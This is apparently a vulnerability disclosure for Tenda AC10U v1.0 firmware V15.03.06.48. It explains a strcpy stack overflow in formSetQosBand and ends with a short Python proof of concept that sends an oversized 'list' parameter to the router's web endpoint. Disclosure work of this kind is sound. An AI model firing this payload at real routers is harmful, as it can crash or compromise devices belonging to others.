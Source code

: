 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetQosBand` function. The `list` variable receives the `list` parameter from a POST request and this variable is passed into function `setQosMiblist` as `list`. In function `setQosMiblist`, variable `list` is passed to `p`, which is later assigned to the `qos_str` variable, which is fixed at 256 bytes. However, since the user can control the input of `list`, the statement `strcpy(qos_str, p);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `qos_str` array, triggering this security vulnerability.

![image-20240313151421962](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151421962.png)

![image-20240313151613616](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151613616.png)

![image-20240313151542937](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313151542937.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183114940](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183114940.png)
